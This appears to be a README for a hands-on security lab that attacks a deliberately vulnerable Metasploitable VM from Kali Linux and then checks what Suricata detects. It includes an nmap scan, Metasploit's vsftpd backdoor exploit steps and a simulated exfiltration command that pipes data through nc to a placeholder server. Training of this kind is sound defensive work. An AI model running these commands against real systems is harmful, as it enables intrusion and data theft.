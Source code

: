 # Exploring Network Detection and Response (NDR) with Kali Linux and Metasploitable

## Objective

The purpose of this lab is to provide hands-on experience with Network Detection and Response (NDR) solutions by simulating real-world attacks using Kali Linux and Metasploitable. Participants will learn how to identify vulnerabilities, exploit them, and analyze how an NDR system detects and responds to malicious activities within a network.

## Prerequisites
- Basic understanding of network security concepts.
- Familiarity with penetration testing tools (e.g., Metasploit).
- Access to a virtual lab environment with Hyper-V installed.

## Lab Environment
- Kali Linux: A powerful penetration testing distribution that includes numerous tools for ethical hacking and network security assessments.
- Metasploitable: An intentionally vulnerable Linux distribution designed for testing and training purposes. It allows participants to practice penetration testing techniques.
- NDR Solution (e.g., Suricata or Zeek): An open-source monitoring tool that provides visibility into network traffic, detects anomalies, and can simulate some NDR functionalities.

## Key Learning Outcomes
- Understand the principles of NDR and its importance in modern cybersecurity.
- Gain hands-on experience in reconnaissance, exploitation, and post-exploitation techniques.
- Analyze alerts and logs generated by the NDR solution during simulated attacks.
- Discuss the effectiveness of NDR in detecting and mitigating threats.

## Lab Activities
- Reconnaissance: Use nmap to scan the Metasploitable VM, identifying open ports and services.
- Exploitation: Utilize Metasploit to exploit vulnerabilities in Metasploitable, demonstrating common attack techniques.
- Post-Exploitation: Simulate actions an attacker might take after gaining access, such as privilege escalation and data exfiltration.
- Monitoring and Analysis: Observe and analyze alerts generated by the NDR solution, discussing detection capabilities and incident response.

Lab Activities
Activity 1: Reconnaissance
Objective: Identify open ports and services on the Metasploitable VM.

Steps:

Open a terminal in Kali Linux.
Run Nmap to scan the Metasploitable VM:
bash
Copy code
nmap -sS -sV -p- <Metasploitable_IP>
Analyze the output to identify open ports and running services.
Activity 2: Exploitation
Objective: Exploit vulnerabilities in Metasploitable to simulate an attack.

Steps:

Launch Metasploit:
bash
Copy code
msfconsole
Search for available exploits for Metasploitable services (e.g., vsftpd):
bash
Copy code
search vsftpd
Select and configure the exploit:
bash
Copy code
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST <Metasploitable_IP>
exploit
Verify access by interacting with the session.
Activity 3: Post-Exploitation Actions
Objective: Simulate actions an attacker might take after gaining access.

Steps:

Privilege Escalation (if applicable):
Attempt to escalate privileges using techniques like sudo -l.
Data Gathering:
Run commands to gather system information:
bash
Copy code
uname -a
whoami
Simulated Data Exfiltration:
Use a command to send data to a controlled external server (or simply log it):
bash
Copy code
echo "Sensitive Data" | nc <your_external_server_IP> <port>
Activity 4: Monitoring and Analysis
Objective: Simulate monitoring and analyze alerts related to the activities performed.

Install and Run an Open-Source NDR Tool:

If using Suricata:
Install Suricata:
bash
Copy code
sudo apt update
sudo apt install suricata
Configure Suricata to monitor the appropriate network interface.
Start Suricata:
bash
Copy code
sudo suricata -c /etc/suricata/suricata.yaml -i eth0
Review Logs:

Check logs for alerts generated during the reconnaissance, exploitation, and post-exploitation activities:
bash
Copy code
cat /var/log/suricata/fast.log
Discussion and Analysis
Review the types of attacks conducted and how they might be detected by an NDR solution.
Analyze the alerts generated by Suricata or expected alerts from typical NDR systems.
Discuss how the knowledge gained can be applied to enhance network security measures.

## Summary
Kali Linux: This is where you perform reconnaissance, exploitation, and analysis of alerts using tools like Nmap, Metasploit, and Suricata.
Metasploitable: You'll log in here to get the IP address and potentially as a target for the attacks.

## Ethical Considerations
This lab is intended for educational purposes only. Participants are reminded to operate within a controlled environment and adhere to ethical hacking principles. All activities should be performed in compliance with relevant laws and organizational policies.
